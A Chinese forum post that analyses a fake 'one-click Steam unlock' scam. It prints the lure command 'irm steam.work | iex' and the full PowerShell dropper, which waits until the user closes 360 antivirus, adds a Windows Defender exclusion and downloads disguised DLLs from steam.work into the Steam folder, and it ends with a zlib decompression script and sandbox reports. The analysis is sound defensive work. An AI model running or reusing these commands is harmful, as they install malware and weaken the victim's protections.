







# [PC样本分析] Steam一键解锁游戏简单分析

- 原帖: https://www.52pojie.cn/forum.php?mod=viewthread&tid=1983766
- 抓取时间: 2026-11-01T23:46:31

## Steam一键解锁游戏骗局分析

steam通过powershell解锁游戏，感觉不简单



```
irm steam.work | iex
```

1. `irm` 是 `Invoke-RestMethod` 的缩写，它用于发送 HTTP GET 请求到指定的 URL，这里是 `steam.work`。这个命令将尝试从该 URL 下载数据。
2. `|` 是管道符号，它会将前一个命令的输出作为下一个命令的输入。
3. `iex` 是 `Invoke-Expression` 的缩写。此命令将执行通过管道传递来的数据作为 PowerShell 脚本代码。
4. 查看回显
   1. 保存脚本到变量:

      ```
      $scriptContent = irm steam.work
      ```

   2. 查看脚本内容:

      ```
      $scriptContent
      ```

通过这种方式，可以看到从 `steam.work` 返回的数据，而不会执行它。

返回了一个html文件，分析后发现是steam商城的默认页面

推测为检测UA头，只有powershell创建的web服务才能触发



- powerShell命令（ctrl+f搜到的）：
  - `irm steam.work/pwsDwFile/new -OutFile x.ps1`：这个命令使用 `Invoke-RestMethod`（`irm`）从 `steam.work/pwsDwFile/new` 下载文件，并将其保存为名为 `x.ps1` 的 PowerShell 脚本文件。
  - `powershell.exe -ExecutionPolicy Bypass -File x.ps1`：此命令执行上一步保存的 `x.ps1` 脚本，同时绕过执行策略，允许运行未签名的脚本。

这种组合表明，目的是从一个可能未知或不受信任的源下载并执行PowerShell脚本

这个PowerShell脚本似乎在自动化与Steam和360安全软件相关的几个任务。以下是脚本的详细解释：

**下载并保存脚本：**

```
Invoke-RestMethod -Uri "http://steam.work/pwsDwFile/new" -OutFile "C:\PathToFolder\x.ps1"
```

这段代码从指定的URL下载文件，并将其保存到指定路径。

**删除特定文件：**

```
$filePathToDelete = Join-Path $env:USERPROFILE "x.ps1"
if (Test-Path $filePathToDelete) {
   Remove-Item -Path $filePathToDelete
}
$desktopFilePathToDelete = Join-Path ([System.Environment]::GetFolderPath('Desktop')) "x.ps1"
if (Test-Path $desktopFilePathToDelete) {
   Remove-Item -Path $desktopFilePathToDelete
}
```

这段代码删除用户主目录和桌面上的名为 `x.ps1` 的文件。

**检查Steam安装路径：**

```
$steamRegPath = 'HKCU:\Software\Valve\Steam'
$localPath = -join ($env:LOCALAPPDATA,"\SteamActive")
if ((Test-Path $steamRegPath)) {
   $properties = Get-ItemProperty -Path $steamRegPath
   if ($properties.PSObject.Properties.Name -contains 'SteamPath') {
       $steamPath = $properties.SteamPath
   }
}
```

这段代码检查注册表以获取Steam的安装路径，并设置一个本地路径。

**检查管理员权限：**

```
if (-not ([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)) {
   Write-Host "[请重新打开Power shell 打开方式以管理员身份运行]" -ForegroundColor:red
   exit
}
```

这段代码检查当前脚本是否以管理员身份运行，如果不是则提示用户以管理员身份运行。

**定义 `PwStart` 函数：**

```
function PwStart() {

   if(Get-Process "360Tray*" -ErrorAction Stop){

       while(Get-Process 360Tray* -ErrorAction Stop){

           Write-Host "[请先退出360安全卫士]" -ForegroundColor:Red

           Start-Sleep 1.5

       }

       PwStart

   }

   if(Get-Process "360sd*" -ErrorAction Stop)

   {

       while(Get-Process 360sd* -ErrorAction Stop){

           Write-Host "[请先退出360杀毒]" -ForegroundColor:Red

           Start-Sleep 1.5

       }

       PwStart

   }

   if ($steamPath -eq ""){

       Write-Host "[请检查您的Steam是否正确安装]" -ForegroundColor:Red

       exit

   }

   Write-Host "[ServerStart    OK]" -ForegroundColor:green

   Stop-Process -Name steam* -Force -ErrorAction Stop

   Start-Sleep 2

   if(Get-Process steam* -ErrorAction Stop){

       TASKKILL /F /IM "steam.exe" | Out-Null

       Start-Sleep 2

   }

   if (!(Test-Path $localPath)) {

       md $localPath | Out-Null

       if (!(Test-Path $localPath)) {

           New-Item $localPath -ItemType directory -Force | Out-Null

       }

   }

   $catchPath = -join ($steamPath,"\package\data")

   if ((Test-Path $catchPath)) {

       if ((Test-Path $catchPath)) {

           Remove-Item $catchPath -Recurse -Force | Out-Null

       }

   }

   try{

       Add-MpPreference -ExclusionPath $steamPath -ErrorAction Stop

       Start-Sleep 3

   }catch{}

   Write-Host "[Result->0     OK]" -ForegroundColor:green

   try{

       $d = $steamPath + "/version.dll"

       if (Test-Path $d) {

           Remove-Item $d -Recurse -Force -ErrorAction Stop | Out-Null

       }

       $d = $steamPath + "/user32.dll"

       if (Test-Path $d) {

           Remove-Item $d -Recurse -Force -ErrorAction Stop | Out-Null

       }

       $d = $steamPath + "/steam.cfg"

       if (Test-Path $d) {

           Remove-Item $d -Recurse -Force -ErrorAction Stop | Out-Null

       }

       $d = $steamPath + "/hid.dll"

       if (Test-Path $d) {

           Remove-Item $d -Recurse -Force -ErrorAction Stop | Out-Null

       }

   }catch{

       Write-Host "[异常残留请检查[$d]文件是否异常!]" -ForegroundColor:red

       exit

   }

   $downloadData = "http://steam.work/pwsDwFile/bcfc1e52ca77ad82122dfe4c9560f3ec.pdf"

   $downloadLink = "http://steam.work/pwsDwFile/9b96dac2bb0ba18d56068fabc5b17185.pdf"

   irm -Uri $downloadLink -OutFile $d -ErrorAction Stop

   Write-Host "[Result->1     OK]" -ForegroundColor:green

   $d = $localPath + "/hid"

   irm -Uri $downloadData -OutFile $d -ErrorAction Stop

   Write-Host "[Result->2     OK]" -ForegroundColor:green

   Start-Sleep 1

   Start steam://

   Write-Host "[连接服务器成功请在Steam输入激活码 3秒后自动关闭]" -ForegroundColor:green

   Start-Sleep 3

   $processID = Get-CimInstance Win32_Process -Filter "ProcessId = '$pid'"

   Stop-Process -Id $processID.ParentProcessId -Force

   exit

}
```

这个函数 `PwStart` 执行了以下任务：

- 检查并终止360安全卫士和360杀毒进程。
- 确认Steam安装路径是否存在。
- 停止所有Steam相关进程。
- 创建本地目录（如果不存在）。
- 删除特定Steam缓存数据。
- 添加Steam路径到Windows Defender的排除路径。
- 删除特定Steam文件。
- 下载并保存指定文件到本地路径，下载的文件包括 `version.dll`、`user32.dll`、`steam.cfg` 和 `hid.dll`。
- 启动Steam并提示用户输入激活码。

整个脚本的目的是确保系统中没有运行360安全软件的情况下，清理和重置Steam的相关数据，并通过自动化下载和配置来恢复Steam的运行。

[www.cnblogs.com/0day-li/p/18042274](https://www.cnblogs.com/0day-li/p/18042274)

[github.com/BlueAmulet/GreenLuma-2024-Manager](https://github.com/BlueAmulet/GreenLuma-2024-Manager)

原理应该类似于家庭共享，实现假入库。

看看释放了什么，在虚拟机输入链接，在everything中监听



打开链接，释放了 `hid` 和 `hid.dll`

[s.threatbook.com/report/file/1d7da3e7683c8101d21149a7aaab4ed0221cfbda7dc20c7e995731d4b8d13a65](https://s.threatbook.com/report/file/1d7da3e7683c8101d21149a7aaab4ed0221cfbda7dc20c7e995731d4b8d13a65)



分析了下签名，怀疑惯犯


[www.ctfiot.com/144523.html](https://www.ctfiot.com/144523.html)

逆向分析 `hid.dll`，拖入ida

查看字符串，发现



Mark Adler不是那个开发 `zlib` 的吗


基本确认了，存在 `zlib` 加密，分析 `hid` 文件

先写个脚本解密


```python
import zlib

def decompress_zlib_file(file_path, output_path):
    try:
        with open(file_path, 'rb') as file:
            compressed_data = file.read()

        decompressed_data = zlib.decompress(compressed_data)

        with open(output_path, 'wb') as output_file:
            output_file.write(decompressed_data)

        print(f"Decompressed data written to {output_path}")
        return True
    except (zlib.error, IOError) as e:
        print(f"Error decompressing file: {e}")
        return False

input_file_path = r"C:\Users\23038\Desktop\hid.zlib"
output_file_path = r"C:\Users\23038\Desktop\decompressed_pe.dll"

success = decompress_zlib_file(input_file_path, output_file_path)

if success:
    print("Decompression and file writing successful.")
else:
    print("Failed to decompress and write the file.")
```

分析`decompressed_pe.dll`，先拖入沙箱

[//ata.360.net/report/580190474312704](https://ata.360.net/report/580190474312704)

[//s.threatbook.com/report/file/e6a3196eff236cadacbaf42285d31d59cb74889882a1f269ebcc88c26728aa52](https://s.threatbook.com/report/file/e6a3196eff236cadacbaf42285d31d59cb74889882a1f269ebcc88c26728aa52)

不出所料，报毒





加壳了,等闲下来找个虚拟机环境看看
